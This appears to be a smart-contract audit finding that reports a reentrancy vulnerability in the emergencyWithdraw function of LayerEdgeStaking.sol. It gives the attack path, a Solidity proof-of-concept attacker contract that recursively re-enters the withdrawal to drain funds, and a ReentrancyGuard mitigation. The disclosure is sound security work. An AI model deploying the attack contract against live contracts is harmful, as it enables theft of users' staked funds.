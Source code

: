 Odd Honey Chinchilla

High

# [High Severity] Reentrancy Vulnerability in emergencyWithdraw Function in LayerEdgeStaking.sol

### Summary

The `emergencyWithdraw` function in `LayerEdgeStaking.sol` is vulnerable to reentrancy because it transfers Ether to the caller via `call` before updating the user’s staked balance, allowing recursive calls to drain funds.

### Root Cause

At [Line 137](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L137), `emergencyWithdraw` uses call to transfer Ether before resetting `stakedBalance[msg.sender]`, violating the checks-effects-interactions pattern.

### Internal Pre-conditions

1. The `LayerEdgeStaking.sol` contract is deployed with funds.
2. A user has a non-zero `stakedBalance`.
3. The `emergencyWithdraw` function is callable.

### External Pre-conditions

1. An attacker deploys a malicious contract with a `receive` function that recursively calls `emergencyWithdraw`.
2. The attacker’s address has a non-zero `stakedBalance`.

### Attack Path

1. Attacker deploys a malicious contract with a receive function that calls `emergencyWithdraw`.
2. Attacker calls `emergencyWithdraw`, triggering the Ether transfer at [Line 137](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L137).
3. The `receive` function re-calls `emergencyWithdraw` before `stakedBalance` is updated, withdrawing funds repeatedly.
4. The contract is drained or limited by gas constraints.

### Impact

- Severity: High (per Sherlock Judging Criteria).
- Details: An attacker can drain the contract’s funds, leading to significant loss of staked assets and undermining the protocol’s integrity.

### PoC

```
solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ILayerEdgeStaking {
    function emergencyWithdraw() external;
}

contract ReentrancyAttack {
    ILayerEdgeStaking public stakingContract;
    uint256 public attackCount;

    constructor(address _stakingContract) {
        stakingContract = ILayerEdgeStaking(_stakingContract);
    }

    receive() external payable {
        if (attackCount < 5) {
            attackCount++;
            stakingContract.emergencyWithdraw();
        }
    }

    function attack() external {
        attackCount = 0;
        stakingContract.emergencyWithdraw();
    }
}
```

### Mitigation

- Update state before external calls (checks-effects-interactions pattern).
- Use OpenZeppelin’s ReentrancyGuard. Example:

```
solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/Pausable.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract LayerEdgeStaking is Pausable, Ownable, ReentrancyGuard {
    mapping(address => uint256) public stakedBalance;

    function emergencyWithdraw() external nonReentrant {
        uint256 amount = stakedBalance[msg.sender];
        require(amount > 0, "No balance to withdraw");
        stakedBalance[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```


